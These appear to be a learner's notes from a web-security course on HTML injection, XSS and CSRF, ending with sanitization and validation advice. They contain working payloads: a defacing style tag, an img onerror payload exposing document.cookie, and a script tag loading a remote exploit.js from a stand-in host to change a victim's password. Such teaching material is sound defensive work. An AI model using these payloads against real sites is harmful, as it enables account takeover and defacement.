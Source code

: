 	- When a user has complete control of how their input will be displayed, they can submit `HTML` code, and the browser may display it as part of the page. This may include a malicious `HTML` code, like an external login form, which can be used to trick users into logging in while actually sending their login credentials to a malicious server to be collected for other attacks.
	- Another example of `HTML Injection` is web page defacing. This consists of injecting new `HTML` code to change the web page's appearance, inserting malicious ads, or even completely changing the page. This type of attack can result in severe reputational damage to the company hosting the web application.
		- `<style> body { background-image: url('https://academy.hackthebox.com/images/logo.svg'); } </style>`
		- Once we input it, we see that the web page's background image changes instantly.
- ## Cross-Site Scripting (XSS)
	- `HTML Injection` vulnerabilities can often be utilized to also perform [Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/) attacks by injecting `JavaScript` code to be executed on the client-side. Once we can execute code on the victim's machine, we can potentially gain access to the victim's account or even their machine.
	- `XSS` is very similar to `HTML Injection` in practice. However, `XSS` involves the injection of `JavaScript` code to perform more advanced attacks on the client-side, instead of merely injecting HTML code. There are three main types of `XSS`:
		- `Reflected XSS` - Occurs when user input is displayed on the page after processing (e.g., search result or error message).
		- `Stored XSS` - Occurs when user input is stored in the back end database and then displayed upon retrieval (e.g., posts or comments).
		- `DOM XSS` - Occurs when user input is directly shown in the browser and is written to an `HTML` DOM object (e.g., vulnerable username or page title).
	- `#"><img src=/ onerror=alert(document.cookie)>`
	- Once we input our payload and hit `ok`, we see that an alert window pops up with the cookie value in it.
- ## Cross-Site Request Forgery (CSRF)
	- The third type of front end vulnerability that is caused by unfiltered user input is [Cross-Site Request Forgery (CSRF)](https://owasp.org/www-community/attacks/csrf).
	- `CSRF` attacks may utilize `XSS` vulnerabilities to perform certain queries, and `API` calls on a web application that the victim is currently authenticated to. This would allow the attacker to perform actions as the authenticated user. It may also utilize other vulnerabilities to perform the same functions, like utilizing HTTP parameters for attacks.
	- A common `CSRF` attack to gain higher privileged access to a web application is to craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker.
		- Once the victim views the payload on the vulnerable page (e.g., a malicious comment containing the `JavaScript` `CSRF` payload), the `JavaScript` code would execute automatically. It would use the victim's logged-in session to change their password. Once that is done, the attacker can log in to the victim's account and control it.
	- `CSRF` can also be leveraged to attack admins and gain access to their accounts. Admins usually have access to sensitive functions, which can sometimes be used to attack and gain control over the back-end server (depending on the functionality provided to admins within a given web application). Following this example, instead of using `JavaScript` code that would return the session cookie, we would load a remote `.js` (`JavaScript`) file, as follows:
		- `"><script src=//www.example.com/exploit.js></script>`
		- The `exploit.js` file would contain the malicious `JavaScript` code that changes the user's password. Developing the `exploit.js` in this case requires knowledge of this web application's password changing procedure and `APIs`. The attacker would need to create `JavaScript` code that would replicate the desired functionality and automatically carry it out (i.e., `JavaScript` code that changes our password for this specific web application).
	- **Prevention**
		- Though there should be measures on the back end to detect and filter user input, it is also always important to filter and sanitize user input on the front end before it reaches the back end, and especially if this code may be displayed directly on the client-side without communicating with the back end. Two main controls must be applied when accepting user input:
			- `Sanitization` - Removing special characters and non-standard characters from user input before displaying it or storing it.
			- `Validation` - Ensuring that submitted user input matches the expected format (i.e., submitted email matched email format)